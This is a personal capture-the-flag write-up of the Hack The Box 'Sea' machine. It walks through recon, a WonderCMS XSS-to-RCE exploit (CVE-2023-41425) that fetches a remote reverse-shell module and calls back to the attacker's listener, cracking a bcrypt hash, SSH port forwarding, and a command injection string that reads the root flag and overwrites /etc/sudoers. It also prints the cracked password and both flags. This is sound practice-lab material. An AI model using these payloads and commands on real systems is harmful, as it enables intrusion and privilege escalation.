**Start 22:15 14-08-2024**

---
```
10.10.11.28
```
## Recon

### Nmap
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.11.28                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 21:16 IST
Nmap scan report for 10.10.11.28
Host is up (0.083s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sT -sV -T5 -vvvv -p- 10.10.11.28
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-15 08:01 IST
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCZDkHH698ON6uxM3eFCVttoRXc1PMUSj8hDaiwlDlii0p8K8+6UOqhJno4Iti+VlIcHEc2THRsyhFdWAygICYaNoPsJ0nhkZsLkFyu/lmW7frIwINgdNXJOLnVSMWEdBWvVU7owy+9jpdm4AHAj6mu8vcPiuJ39YwBInzuCEhbNPncrgvXB1J4dEsQQAO4+KVH+QZ5ZCVm1pjXTjsFcStBtakBMykgReUX9GQJ9Y2D2XcqVyLPxrT98rYy+n5fV5OE7+J9aiUHccdZVngsGC1CXbbCT2jBRByxEMn+Hl+GI/r6Wi0IEbSY4mdesq8IHBmzw1T24A74SLrPYS9UDGSxEdB5rU6P3t91rOR3CvWQ1pdCZwkwC4S+kT35v32L8TH08Sw4Iiq806D6L2sUNORrhKBa5jQ7kGsjygTf0uahQ+g9GNTFkjLspjtTlZbJZCWsz2v0hG+fzDfKEpfC55/FhD5EDbwGKRfuL/YnZUPzywsheq1H7F0xTRTdr4w0At8=
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMMoxImb/cXq07mVspMdCWkVQUTq96f6rKz6j5qFBfFnBkdjc07QzVuwhYZ61PX1Dm/PsAKW0VJfw/mctYsMwjM=
|   256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHuXW9Vi0myIh6MhZ28W8FeJo0FRKNduQvcSzUAkWw7z
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

From here we see that ports `22 and 80` are open.

I looked up a vulnerability for `Apache httpd 2.4.41` and found the following:



Might come in handy

### 80/TCP - HTTP

We head to the site and here we find nothing of great interest except for a contact page.



We notice that there's a `contact.php` page:



#### BurpSuite
My instinct was to instantly go into `Burp` to analyse the `POST` request this form was making.



Here I tried:
- `SQL injection methods` which had no effect.
- `XSS attacks` by inputting different scripts in the `params` which also did not work.

At the same time I launched `Hydra` in order to `brute force SSH`:



That was gonna last a while so I tried other methods at the same time.

==Directory enumeration==
I tried `Gobuster` and found some interesting directories, but when I headed to them I kept getting all the same messages:



So I decided to try `dirsearch`:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://sea.htb/ -x 403,404,400 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                              
 (_||| _) (/_(_|| (_| )                                                                                                                                       
                                                                                                                                                              
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_sea.htb/__24-08-15_08-23-24.txt

Target: http://sea.htb/

[08:23:24] Starting:                                                                                                                                          
[08:23:29] 200 -    1KB - /404                                              
[08:23:45] 200 -  939B  - /contact.php                                      
[08:23:46] 301 -  228B  - /data  ->  http://sea.htb/data/                   
[08:23:58] 301 -  232B  - /messages  ->  http://sea.htb/messages/           
[08:24:03] 301 -  231B  - /plugins  ->  http://sea.htb/plugins/             
[08:24:11] 301 -  230B  - /themes  ->  http://sea.htb/themes/
```

When I saw the `/themes` endpoint I tried to head to it but that too was `forbidden`. Yet I viewed the `source page` and found the following stylesheet:



So I tried a `dirsearch` again but more focussed now on subdirectories:

```bash
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://sea.htb/themes/bike/ -x 403,404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                                                                                                              
 (_||| _) (/_(_|| (_| )                                                                                                                                       

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_sea.htb/_themes_bike__24-08-15_08-26-06.txt

Target: http://sea.htb/

[08:26:06] Starting: themes/bike/                                                                                                                             
[08:26:15] 200 -    1KB - /themes/bike/404                                  
[08:26:20] 200 -    1KB - /themes/bike/admin/home                           
[08:26:37] 301 -  239B  - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
[08:26:45] 200 -    1KB - /themes/bike/home                                 
[08:26:46] 301 -  239B  - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
[08:26:50] 200 -    1KB - /themes/bike/LICENSE                              
[08:27:03] 200 -  318B  - /themes/bike/README.md # We got a README file          
[08:27:07] 200 -    1KB - /themes/bike/sitecore/content/home                
[08:27:10] 200 -    1KB - /themes/bike/sym/root/home/                       
[08:27:15] 200 -    6B  - /themes/bike/version # Also interesting for us                              
   
Task Completed
```

As you can see we finally struck gold. We found a `README.md` file in one of the subdirectories and it's showing up as `status 200`, let's check it out.



It mentions `WonderCMS`, a Content Management System, interesting. Let's now check out the `/version` endpoint.


## Exploit
Aha! Now we know that this site is using `WonderCMS 3.2.0`. I looked up whether there's any available exploits and landed on this [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425?tab=readme-ov-file):



It's a script which utilizes `Cross Site Scripting` and uploads a `Remote Code Execution shell`.

Let's download it and try it out.

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py                                                   
usage: python3 exploit.py loginURL IP_Address Port
example: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252
```

We can now set it up for ourselves, we basically need to use this exploit on the `/contact.php` page (since that is the only page where we can submit stuff). Inside the `exploit.py` script we find a line that sticks out to us:

```python
xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
```

We save this thought for later as it will come in handy. Now we can go ahead and set up the exploit as follows:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 exploit.py "http://sea.htb/index.php?page=loginURL" 10.10.14.24 6262 
[+] xss.js is created
[+] execute the below command in another terminal

----------------------------
nc -lvp 6262
----------------------------

send the below link to admin:

----------------------------
http://sea.htb/index.php?page=index.php?page=loginURL?"></form><script+src="http://10.10.14.24:8000/xss.js"></script><form+action="
----------------------------


starting HTTP server to allow the access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```bash
nc -lvnp 6262
```

Now I entered the following line in the form and waited if it went through:

```bash
http://sea.htb/index.php?page=index.php?page=loginURL?"></form><script+src="http://10.10.14.24:8000/xss.js"></script><form+action="
```



Indeed it did, afterwards I checked out the `xss.js` file that was created and uploaded:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cat xss.js  

var url = "http://sea.htb/index.php?page=loginURL";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname; 
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "10.10.14.24";
       var port = "6262";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();
       
     }
   };
 }
};

```

All appears correct, now we just need to navigate to the previously mentioned `URL` on the website:

```bash
http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.24&lport=6262
```


For some reason it just did not end up working even though I reset the machine multiple times it did not work.




## VPN Change

After many false attempts I ended up changing my `HTB VPN connection` and tried it again but more simplified and this time it finally worked:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 exploit.py http://sea.htb/themes 10.10.14.24 4444
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.4&lport=4444' 
```



Now that we FINALLY have a reverse shell we can get to exploiting the machine further.

First of all I have stabilised the shell like so:

```bash
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@sea:/$ 
```

We are not allowed to run `sudo -l` nor are we allowed to `cat` the `user.txt` flag. Thus it is time for `Privilege Escalation`.

## Privilege Escalation

I started off with `OS Info` and went with the first script:

```bash
(cat /proc/version || uname -a ) 2>/dev/null
```

This gave me the following output:

```bash
(cat /proc/version || uname -a ) 2>/dev/null
Linux version 5.4.0-190-generic (buildd@lcy02-amd64-039) (gcc version 9.4.0 (Ubuntu 9.4.0-1ubuntu1~20.04.2)) #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024
```

We can search this version of Linux up on `Searchsploit to see whether it has any vulnerabilities`. 



Unfortunate for us it only mentions a `Bluetooth` vulnerability which means we'll have to dig deeper. 

We find nothing that can really help us so I went ahead and started checking the directories. I remembered that `Dirsearch` showed me an endpoint of `/data` which I thought sounded interesting so I looked into it and I found something:



Well look at that, a whole `database` file. I used `cat` on this file and viewed it's contents:



We got a password hash! It appears to be a `bcrypt` hash which we need to reformat by removing the 2 `\` and then we can use `John` against it:

```
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q
```

Now let's run it:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?) # The cracked password     
1g 0:00:00:18 DONE (2024-08-15 11:23) 0.05527g/s 169.1p/s 169.1c/s 169.1C/s iamcool..memories
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Great we cracked the password, let's find out what the user for it is. We have 2 users in the `/home` directory:

```bash
www-data@sea:/home$ ls -l
ls -l
total 8
drwxr-xr-x 6 amay amay 4096 Aug 14 07:50 amay
drwxr-x--- 4 geo  geo  4096 Aug  1 12:13 geo
```

Let's start with `amay`

### 22/TCP - SSH

We try to login using the credentials we have found:

```
amay
mychemicalromance
```



And we are in. Let's check `sudo privileges` and get some flags.

```bash
amay@sea:~$ sudo -l
[sudo] password for amay: 
Sorry, user amay may not run sudo on sea.
```

This means we'll have to find out different methods.

```bash
find / -perm -u=s -type f 2>/dev/null
```



This shows us a list of files with `SUID/GUID privileges`, nothing notable for us. I still had a go with some of the binaries but none of them worked so I instead opted for another option.

## Port Forwarding
To forward our port we run the following in a new terminal (not inside the `SSH shell`): 

```bash
ssh -L 8080:localhost:8080 amay@sea.htb
```

>If it is not possible to forward the port it could mean that port 8080 is busy, check this using the following command: `sudo lsof -i :8080`. If the port is indeed busy, kill it and try the command again.

When done it should look like this:



Afterwards we can go to `localhost:8080` which is forwarding this exact port to see what is running on there. The site will ask you to sign in, simply use `amay's creds`.



Let's check the `Analyze Log File` page and while doing we'll run `Burpsuite` to analyse the requests.

For more about `Port Forwarding` check out [this heading](Linux%20Privilege%20Escalation.md#Network#Port%20Forwarding).

### Burpsuite

Since we have a forward port running on `8080` we'll have to change the `Burpsuite proxy settings`:





Now that the `Burpsuite` proxy is configure to `8070` we can get to work. If all is correct we should get the following screen when we click on `Analyse`:



We can try and manipulate this request:



In `line 3788` it now tells us that `suspicious traffic patterns were detected`. This is actually a good thing for us because that tells us that `Command Injection` is possible!

We then scribble up a command using `ChatGPT` which will copy over the `root` flag and output it's contents for us. This exposure happened due to some side effects of the command and execution:

```
log_file=/root/root.txt;cp /dev/shm/sudoers > /etc/sudoers&analyze_log=
```

Right on line 108 is the `root flag`:



### user.txt

```bash
amay@sea:~$ cat /home/amay/user.txt 
897395b547b61a1f2c6464cead1388e6
```

### root.txt
Within the [Burpsuite heading ](#Burpsuite) we were able to exploit a `Command Injection` vulnerability and display the `root` flag through it:

```
704c9fcc9f6b5c7b900cba224b46cd32
```




---

**Finished 13:00 15-08-2024**

[^Links]: [[Hack The Box]] 
